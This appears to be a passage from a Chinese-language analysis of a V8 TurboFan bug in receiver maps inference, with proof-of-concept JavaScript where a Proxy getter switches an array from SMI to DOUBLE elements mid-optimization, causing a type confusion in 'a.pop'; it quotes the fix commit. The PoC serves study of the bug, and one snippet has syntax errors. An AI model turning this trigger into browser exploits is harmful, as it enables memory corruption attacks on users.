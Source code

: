 ```js

%PrepareFunctionForOptimization(empty);
%PrepareFunctionForOptimization(f);
%PrepareFunctionForOptimization(main);

main(empty);
main(empty);
%OptimizeFunctionOnNextCall(main);
main(p);
```

用`release`版本的v8运行不会报错，使用debug版本的v8运行会报错。

根据`commit`中的信息，应该是`a.pop`调用的时候，没有考虑到`JSCreate`结点存在的`side-effect`（会触发回调函数），改变`a`的类型（变成`DOUBLE`），仍然按之前的类型（`SMI`）处理。

```
[turbofan] Fix bug in receiver maps inference

JSCreate can have side effects (by looking up the prototype on an
object), so once we walk past that the analysis result must be marked
as "unreliable".
```

为了验证，可以将`pop`的返回值打印出来，加入代码：

```js
let a = [0, 1, 2, 3, 4];

function empty() {}

function f(p) {
  return a.pop(Reflect.construct(empty, arguments, p));  // return here
}

let p = new Proxy(Object, {
    get: () => (a[0] = 1.1, Object.prototype)
});

function main(p) {
  return f(p);   // return here
}

%PrepareFunctionForOptimization(empty);
%PrepareFunctionForOptimization(f);
%PrepareFunctionForOptimization(main);

print main(empty);
print main(empty);
%OptimizeFunctionOnNextCall(main);
print(main(p));
```

运行打印出来的结果，看到最后一次本来应该输出`2`的，却输出为`0`。
